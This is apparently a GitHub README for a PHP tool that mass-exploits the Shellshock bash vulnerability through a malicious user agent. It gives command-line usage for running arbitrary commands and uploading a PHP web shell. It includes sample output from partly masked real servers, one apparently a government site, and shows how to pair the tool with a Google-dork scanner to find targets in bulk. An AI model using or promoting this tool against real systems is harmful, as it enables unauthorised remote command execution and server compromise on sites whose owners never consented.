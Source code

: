 - Xpl-SHELLSHOCK-Ch3ck
------
The tool inject a malicious user agent that allows exploring the vulnerabildiade   sheelshock running server-side commands.

```
  # SCRIPT by:     [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  Xpl SHELLSHOCK Ch3ck Tool - (MASS)/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
```
  
- DESCRIPTION - VULNERABILITY(SHELLSHOCK)
------
```
- CVE-2014-6271, CVE-2014-6277,
- CVE-2014-6278, CVE-2014-7169,
- CVE-2014-7186, CVE-2014-7187
Is a vulnerability in GNU's bash shell that gives attackers access
to run remote commands on a vulnerable system.
```

- DESCRIPTION - TOOL
------
```
The tool inject a malicious user agent that allows exploring the vulnerabildiade
sheelshock running server-side commands.
``` 

-  Dependencies:
------
```
sudo apt-get install php5 php5-cli php5-curl
```

 - Execute:
------
```
  -t : SET TARGET.
  -f : SET FILE TARGETS.
  -c : SET COMMAND.
  -w : SET UPLOAD SHELL PHP.
  Execute:
  php xplSHELLSHOCK.php -t target -c command
  php xplSHELLSHOCK.php -f targets.txt -c command
  SHELL UPLOAD: php xplSHELLSHOCK.php -t target -c command -w
  OUTPUT VULN: SHELLSHOCK_vull.txt
```
 - Exemples:
------
```
php xpl.php -t 'http://www.xxxcamnpalxxx.com.br/cgi-bin/login.sh' -c pwd
CMD:
Linux serv 2.6.29.6-smp #2 SMP Mon Aug 17 00:52:54 CDT 2009 i686 Intel(R) Xeon(R) CPU E5504  @ 2.00GHz GenuineIntel GNU/Linux
uid=1000(icone) gid=100(users) groups=100(users)
/ico/camnpal/cgi-bin
END_CMD:


php xpl.php -t 'http://www.xxxbnmxxx.me.gov.ar/cgi-bin/wxis.exe/opac/?IsisScript=opac/opac.xis' -c pwd
CMD:
Linux sitiobnm 2.6.37BNM #26 SMP Tue Jan 25 19:22:26 ART 2011 x86_64 GNU/Linux
uid=1005(webmaster) gid=1003(webmaster) groups=1003(webmaster)
/mnt/volume1/sitio/data/catalogos/cgi-bin
END_CMD:
```

 - EXPLOIT MASS USE SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:"/cgi-bin/login.sh"' -s out.txt -q 1,6 --command-vul "php xpl.php -t '_TARGETFULL_' -c pwd"
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR
